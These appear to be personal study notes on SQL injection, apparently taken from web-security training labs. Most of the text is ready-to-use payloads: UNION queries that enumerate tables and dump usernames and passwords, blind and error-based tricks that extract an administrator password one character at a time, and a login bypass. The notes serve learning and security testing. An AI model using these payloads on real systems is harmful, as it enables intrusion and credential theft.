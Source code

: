 # Retrieving hidden data

## simple attack 
`https://insecure-website.com/products?category=Gifts` -> `SELECT * FROM products WHERE category = 'Gifts' AND released = 1` 
=> after injecting `'+OR+1=1--` -> `SELECT * FROM products WHERE category = 'Gifts' OR 1=1--' AND released = 1`

## Examining the database

> **determine number of columns/which column contains text**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
> **database version**: `'+UNION+SELECT+BANNER,+NULL+FROM+v$version--`

- On <mark style="background: #BBFABBA6;">MySQL and Microsoft</mark>
>  `'+UNION+SELECT+'abc','def'#`
>  `'+UNION+SELECT+@@version,+NULL#`
## Listing the contents 

- <mark style="background: #FF5582A6;">Oracle</mark>
>**number of columns**: `'+UNION+SELECT+'abc','def'+FROM+dual--`
>**list of tables in the database**: `'+UNION+SELECT+table_name,NULL+FROM+all_tables--`
>**details of the columns in the table**:`'+UNION+SELECT+column_name,NULL+FROM+all_tab_columns+WHERE+table_name='USERS_ABCDEF'--`
>**usernames and passwords for all users**: `'+UNION+SELECT+USERNAME_ABCDEF,+PASSWORD_ABCDEF+FROM+USERS_ABCDEF--`

- <mark style="background: #FF5582A6;">non-Oracle</mark>
>`'+UNION+SELECT+'abc','def'--`
>`'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--`
>`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_abcdef'--`
>`'+UNION+SELECT+username_abcdef,+password_abcdef+FROM+users_abcdef--`

# Blind SQL injection
## triggering conditional responses

- let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz' AND '1'='1` -> "Welcome back" message appears in the response
>2) **change it to**: `TrackingId=xyz' AND '1'='2` ->  "Welcome back" message does not appear in the response
>3) `TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a` ->  there is a table called `users`
>4) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a` -> there is a user called `administrator`
>5) `TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a` -> password is greater than 1 character in length.
>6) burp intruder/Repeater =>  password is 20 characters long.
>7) `TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§` -> first character
>8) `TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='§a§` ->2nd character
>And so on...

## Error-based

### triggering conditional errors

- simple example:
> `xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `'a'` => no error 
> `xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a` -> evaluates to `1/0` => divide-by-zero error
> => **you can retrieve data by testing one character at a time**: `xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a`

- another example:
  - let's say the original value of the cookie is `TrackingId=xyz`.
>1) **Modify the cookie**: `TrackingId=xyz'` -> error message is received
>2) **change it to two quotation marks**: `TrackingId=xyz''` -> the error disappears
>3) **confirm that the server is interpreting the injection as a SQL query**:
> - `TrackingId=xyz'||(SELECT '')||'` -> `TrackingId=xyz'||(SELECT '' FROM dual)||'` -> no error => oracle database(as we used dual) 
> - `TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||'` -> error again
> 4) **verify that the `users` table exists** -> `TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'`
> 5) **exploit this behavior to test conditions**: 
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error received
> - `TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'` -> error disappears
>6) **check whether the username `administrator` exists**: `TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>7) **determine the length of administrator's password**:  `TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>§1§ THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'` (use intruder)
>8) **test the character at each position to determine its value**: 
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
>- `TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,2,1)='§a§' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'` 
>- and so on...
/gitcomm
# Subverting application logic

## simple attack 
`SELECT * FROM users WHERE username = 'wiener' AND password = 'bluecheese'` 
=> submit username as `administrator'--` -> `SELECT * FROM users WHERE username = 'administrator'--' AND password = ''`